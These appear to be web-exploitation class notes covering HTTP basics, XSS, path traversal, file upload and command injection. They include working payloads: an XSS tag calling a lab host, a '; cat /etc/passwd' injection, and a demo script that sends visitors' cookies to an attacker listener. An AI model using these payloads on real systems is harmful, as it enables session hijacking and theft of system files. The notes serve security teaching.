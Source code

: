 ## HTTP Methods
* GET
* POST
* HEAD
* PUT
## HTTP Response Codes
* 10X - Informational
* 2XX - Success
* 30X = Redirection
* 4XX - Client Error
* 5XX - Server Error
## HTTP Fields
* User-Agent
* Referer
* Cookie
* Date
* Server
* Set-Cookie
## JavaScript Interaction
```
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>
```
* JS Demo - http://10.50.XX.XX/java/Javademo.html
## Enumeration
* ROBOTS.TXT
  - If you find this file, go to it and enumerate (There might be something important here)
* Legitimate surfing
* Tools:
  - NSE scripts
  - Nikto
  - Burp suite (outside class)
## Cross-Site scripting (XSS) Overview
* Insertion of arbitrary code into a webpage, that executes in the browser of visitors
* Unsanitized GET, POST, and POST methods allow JS to be placed on websites
* Often found in forums that allow HTML
## Reflected XXS
* Most common form of XSS
* Transient, occurs in error messages or search results
* Delivered through intermediate media, such as a link in an emial
* Characters that are normally illegal in URLs can be Base64 encoded
## Stored XSS
* Resides on vulnerable site
* Only requires user to visit page
```
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
## Useful Javascript components
* Proof of concept (simple alert)
  - `<script>alert('XSS');</script>`
* Capturing Cookies
  - `document.cookie`
* Capturing Keystrokes
  - `bind keydown and keyup`
* Capturing Sensitive Data
  - `document.body.innerHTML`
## Server-Side Injection
* Ability to read/execute outside web server's directory
* Uses `../../` (relative Paths) in manipulating a server-side file path
## Malicious File Upload
* Server Doesnt Validate extension or size
* Allows or code execution (shell)
* Once uploaded
  - Find your file
  - Call your file
## Command Injection
* User input not validated
* Might contain the following in it’s code:
```
system("ping -c 1 ".$_GET["ip"]);
```
* Run the following to chain/stack our arbitrary command
```
; cat /etc/passwd
```
# Demo
```
python3 -m http.server # This makes a webserver
<script>document.location="http://10.50.30.231:8000/"+document.cookie;</script> # This script steals cookies from users and sends it to our webserver
```
# CTF
```

```


















